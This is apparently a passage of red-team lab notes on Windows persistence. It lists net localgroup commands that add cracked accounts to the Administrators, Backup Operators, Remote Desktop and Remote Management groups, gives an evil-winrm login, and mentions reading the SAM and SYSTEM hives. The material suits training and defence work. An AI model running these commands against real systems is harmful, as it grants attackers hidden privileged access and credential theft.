 ### Assign Group Memberships
**We will assume that you have dumped the password hashes and successfully cracked the passwords for the unprivileged accounts in use.**

**Direct way to make an unprivileged user gain administrative privileges is to make it part of the `Administrators group`**
```cmd
net localgroup administrators thmuser0 /add
```

If that looks suspicious, use the `Backup Operators` group. Users in this group won't have administrative privileges, but will be allowed to read/write any file or registry key on the system, ignoring any configured DACL. This will allows us to copy the content of the `SAM` and `SYSTEM` registry hives.
```cmd
net localgroup "Backup Operators" thmuser1 /add
```

Since this is an unprivileged account, it can't RDP or WinRM back to the machine. So, add the user to these groups
```cmd
# RDP
net localgroup "Remote Desktop Users" thmuser1 /add

# WinRM
net localgroup "Remote Management Users" thmuser1 /add
```

#### Evil-WinRM
```
evil-winrm -i <TARGET-IP> -u <USERNAME> -p <PASSWORD>
```

Even if you are connected from your ***attacker machine***, and even if you are on the ***Backup Operators group***, you would ***not be able to access all files remotely because `UAC limits your privileges`***. This happens due to `LocalAccountTokenFilterPolicy`, which ***strips admin rights from local accounts during remote (WinRM) logins***. 